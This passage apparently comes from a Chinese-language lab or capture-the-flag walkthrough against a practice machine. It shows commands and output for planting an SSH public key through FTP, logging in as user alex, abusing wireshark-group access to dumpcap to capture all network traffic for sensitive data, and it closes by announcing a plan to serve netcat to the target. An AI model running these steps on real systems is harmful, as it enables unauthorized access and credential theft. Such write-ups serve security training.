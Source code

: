 ```
|     . .+==.+  .*|
|      ...+=++ .++|
|       ..ooB   +o|
|        S + . o +|
|       o *   + = |
|        B   . = .|
|       . .   o   |
|                 |
+----[SHA256]-----+
```

上传公钥到FTP服务器

```
ftp> 
ftp> mkdir .ssh
257 "/home/alex/.ssh" created
ftp> cd .ssh
250 Directory successfully changed.
ftp> put /tmp/id_rsa.pub
local: /tmp/id_rsa.pub remote: /tmp/id_rsa.pub
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
563 bytes sent in 0.00 secs (9.1003 MB/s)
```

使用证书进行登录

```
┌──(root💀kali)-[/tmp]
└─# ssh -i id_rsa alex@192.168.32.139 
[alex@websrv01 ~]$ whoami
alex
[alex@websrv01 ~]$ id
uid=1002(alex) gid=1002(alex) groups=1002(alex),994(wireshark)
```

请注意，`id`这`alex`是wireshark组的一部分？让我们看看那个组可以在这个盒子上运行什么。

```
[alex@websrv01 opt]$ find / -type f -group wireshark 2>/dev/null
/usr/sbin/dumpcap
```

dumpcap命令是wireshark命令行捕捉数据包，猜测靶机自动传输一些敏感信息，抓取所有网卡接口的流量。

```
[alex@websrv01 tmp]$ dumpcap -i any
Capturing on 'any'
File: /tmp/wireshark_pcapng_any_20211227090725_V7WCH2
Packets captured: 394
Packets received/dropped on interface 'any': 394/0 (pcap:0/dumpcap:0/flushed:0) (100.0%)
```

本地部署http服务器，让靶场下载nc命令。
